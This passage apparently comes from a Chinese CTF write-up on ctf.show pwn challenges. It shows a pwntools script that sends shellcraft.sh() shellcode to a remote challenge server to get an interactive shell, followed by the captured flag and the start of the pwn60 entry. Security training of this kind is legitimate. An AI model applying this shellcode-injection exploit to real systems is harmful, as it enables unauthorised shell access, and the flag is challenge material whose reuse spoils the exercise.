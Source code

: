 

还是一样的exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28168
elf = ELF('./pwn')

r = remote(ip,port)

payload = asm(shellcraft.sh())

r.sendline(payload)

r.interactive()
```





flag：

```
ctfshow{4f6c9973-61e6-4049-8fa5-323dec764829}
```



## 60. pwn60

入门难度shellcode

![image-20241102173220382](../_media/image-20241102173220382.png)



main函数如下：

![image-20241102173448195](../_media/image-20241102173448195.png)
